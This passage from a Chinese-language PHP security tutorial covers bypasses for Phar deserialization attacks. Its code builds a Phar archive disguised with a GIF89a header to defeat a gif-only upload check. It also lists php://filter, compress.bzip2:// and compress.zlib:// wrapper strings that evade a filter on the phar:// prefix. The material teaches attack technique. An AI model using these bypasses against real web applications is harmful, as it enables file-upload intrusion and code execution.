## 6、常见的绕过方式

### 1、更改文件格式绕过

>   限制条件，服务器端存在如下防护，**要求文件格式只能为gif**
>
>   ```
>   $_FILES["file"]["type"]=="image/gif"
>   ```

>   那么这里就可以想到到Phar文件中的Stub文件头
>
>   因为PHP通过`Stub`里的`__HALT_COMPILER();`来识别这个文件是Phar文件，对其他东西是没限制的
>
>   那么就可以通过往stub里面加点东西来绕过这个检测

```php
<?php
    class Test {
        public $name;
        function __construct(){
            echo "I am".$this->name.".";
        }
    }
    $obj = new Test();
    $obj -> name = "changjing";
    $phar = new Phar('test.phar');
    $phar -> startBuffering(); //开始缓冲 Phar 写操作
    $phar -> setStub('GIF89a<?php __HALT_COMPILER();?>'); //设置stub，添加gif文件头
    $phar ->addFromString('test.txt','test'); //要压缩的文件
    $phar -> setMetadata($obj);  //将自定义meta-data存入manifest
    $phar -> stopBuffering(); ////停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

>   **然后产生的phar文件就变成gif格式，这种上传一般可以绕过大多数上传检测**



### 2、绕过Phar关键字过滤

>   一般phar文件反序列化的思路是上传Phar文件后，然后通过给参数赋值为`Phar://xxx`来实现反序列化，那么假如有如下过滤条件
>
>   ```c
>   if (preg_match("/^php|^file|^phar|^dict|^zip/i",$filename){
>       die();
>   }
>   ```
>
>   然后绕过的办法就是用各种协议进行绕过
>
>   ```c
>   //即使用filter伪协议来进行绕过
>   php://filter/read=convert.base64-encode/resource=phar://test.phar
>   
>   //使用bzip2协议来进行绕过
>   compress.bzip2://phar:///test.phar/test.txt
>   
>   //使用zlib协议进行绕过
>   compress.zlib://phar:///home/sx/test.phar/test.txt
>   
>   ```
>
>   
